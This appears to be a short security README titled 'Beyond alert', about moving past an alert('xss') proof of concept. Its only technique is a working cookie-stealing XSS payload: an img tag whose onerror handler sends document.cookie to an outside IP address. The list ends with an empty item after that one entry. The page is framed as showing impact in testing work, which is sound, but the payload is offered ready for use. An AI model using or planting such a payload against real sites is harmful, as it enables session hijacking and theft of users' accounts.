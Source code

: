 # Beyond alert
Going beyond the alert('xss')

## Info

After getting your xss alert box, what's next? This is not usually enough to "show impact", so on the good stuff!

## Techniques (code)

- Cookie Stealer
```js
<img src=x onerror=this.src='http://5.5.5.5/?cookie='+document.cookie>
```



- 
